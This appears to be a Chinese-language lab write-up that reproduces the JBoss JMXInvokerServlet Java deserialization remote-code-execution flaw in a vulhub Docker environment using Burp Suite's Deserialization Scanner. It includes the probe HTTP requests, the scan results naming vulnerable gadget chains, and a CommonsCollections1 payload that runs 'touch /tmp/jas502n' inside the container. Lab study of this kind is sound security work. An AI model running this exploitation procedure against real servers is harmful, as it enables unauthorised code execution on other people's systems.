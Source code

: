 # Jboss_JMXInvokerServlet_Deserialization_RCE

![](./Jboss_JMXInvokerServlet_Deserialization_RCE.jpg)

## 使用Burp Suite利用Java反序列化漏洞



### 0x01 搭建Jboss JMXInvokerServlet 反序列化漏洞

#### 测试环境： JBoss JMXInvokerServlet 反序列化漏洞
#### 漏洞原理：JBoss在/invoker/JMXInvokerServlet请求中读取了用户传入的对象，然后我们利用Apache Commons Collections中的Gadget执行任意代码。

```
root@kali:~/vulhub/jboss/JMXInvokerServlet-deserialization# docker-compose up -d
jmxinvokerservlet-deserialization_jboss_1 is up-to-date

root@kali:~# docker ps -a
CONTAINER ID        IMAGE                      COMMAND                  CREATED             STATUS              PORTS                                      
65b3707b9419        vulhub/jboss:as-6.1.0      "/run.sh"                4 hours ago         Up 4 hours          0.0.0.0:8080->8080/tcp, 0.0.0.0:9990->999
```

## 0x02 访问/invoker/JMXInvokerServlet, 将post数据包发送到Deserialization Scanner -Manual testing

BurpSuite 历史记录，如果/invoker/JMXInvokerServlet路径存在，页面返回200状态码
```
POST /invoker/JMXInvokerServlet HTTP/1.1
Host: 10.10.20.166:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Cookie: JSESSIONID=8B6B65418F89E8857F4302AB85085A36
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1

aaaa
```
response返回 Java serialization data, version 5
文件头以aced0005737200246f72672e6a626f73开头

将/invoker/JMXInvokerServlet ,POST流量发送到DS插件里面
右击,点击 Send request to DS-Manual testing

### 设置序列化点
选择存在序列化的位置，由于JBoss在/invoker/JMXInvokerServlet请求中读取了用户传入的序列化对象.
设置aaaa为序列化点，全选aaaa
然后点击 Set Insertion Point
此时POST数据变成了 $aaaa$

```
POST /invoker/JMXInvokerServlet HTTP/1.1
Host: 10.10.20.166:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Cookie: JSESSIONID=8B6B65418F89E8857F4302AB85085A36
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1

§aaaa§
```

### 扫描$aaaa$是否存在序列化漏洞
![](./VULNERABLE.jpg)
点击 Attack

提示
```
SCANNING IN PROGRESS  //正在进行扫描
Scanning can go on approximately from 1 second up to 3 minutes, based on the number of vulnerable libraries founded
//根据创建的易受攻击的库的数量，扫描可以持续大约1秒到3分钟
```

稍等

```
Results:

Apache Commons Collections 3 (Sleep): Potentially VULNERABLE!!!
Spring Alternate Payload (Sleep): NOT vulnerable.
Apache Commons Collections 4 (Sleep): NOT vulnerable.
JSON (Sleep): NOT vulnerable.
Apache Commons Collections 3 Alternate payload 2 (Sleep): NOT vulnerable.
ROME (Sleep): NOT vulnerable.
Apache Commons Collections 4 Alternate payload (Sleep): NOT vulnerable.
Java 8 (up to Jdk8u20) (Sleep): NOT vulnerable.
Java 6 and Java 7 (up to Jdk7u21) (Sleep): Potentially VULNERABLE!!!
Hibernate 5 (Sleep): NOT vulnerable.
Commons BeanUtils (Sleep): NOT vulnerable.
Apache Commons Collections 3 Alternate payload 3 (Sleep): Potentially VULNERABLE!!!
Spring (Sleep): NOT vulnerable.
Apache Commons Collections 3 Alternate payload (Sleep): Potentially VULNERABLE!!!
END

IMPORTANT NOTE: High delayed networks may produce false positives!
```
可能存在危害的利用方法
```
Apache Commons Collections 3 (Sleep): Potentially VULNERABLE!!!   //可能有害！
Java 6 and Java 7 (up to Jdk7u21) (Sleep): Potentially VULNERABLE!!! //可能有害！
Apache Commons Collections 3 Alternate payload 3 (Sleep): Potentially VULNERABLE!!! //可能有害！
Apache Commons Collections 3 Alternate payload (Sleep): Potentially VULNERABLE!!!  //可能有害！
```

右击发送到 Send to Exploitation tab


默认
`CommonsCollections1 COMMAND`
改为
`CommonsCollections1 "touch /tmp/jas502n"`

点击 Attack

进入docker服务器，查看/tmp/jas502n文件是否创建成功
![](./jas502n.jpg)

```
root@kali:~/vulhub/jboss/JMXInvokerServlet-deserialization# docker ps -a
CONTAINER ID        IMAGE                      COMMAND                  CREATED             STATUS              PORTS                                            NAMES
65b3707b9419        vulhub/jboss:as-6.1.0      "/run.sh"                5 hours ago         Up 5 hours          0.0.0.0:8080->8080/tcp, 0.0.0.0:9990->9990/tcp   jmxinvokerservlet-deserialization_jboss_1

root@kali:~/vulhub/jboss/JMXInvokerServlet-deserialization# docker exec -it 65b3707b9419 /bin/bash
[root@65b3707b9419 /]# cd /tmp
[root@65b3707b9419 tmp]# ls
hsperfdata_root  jas502n
[root@65b3707b9419 tmp]# rm jas502n 
rm: remove regular empty file 'jas502n'? y
[root@65b3707b9419 tmp]# 
[root@65b3707b9419 tmp]# ls
hsperfdata_root
[root@65b3707b9419 tmp]# ls
hsperfdata_root  jas502n
[root@65b3707b9419 tmp]# 
```

## 参考链接：
https://github.com/vulhub/vulhub/blob/master/jboss/JMXInvokerServlet-deserialization/README.md

https://youtu.be/F3bPD_uGXKc
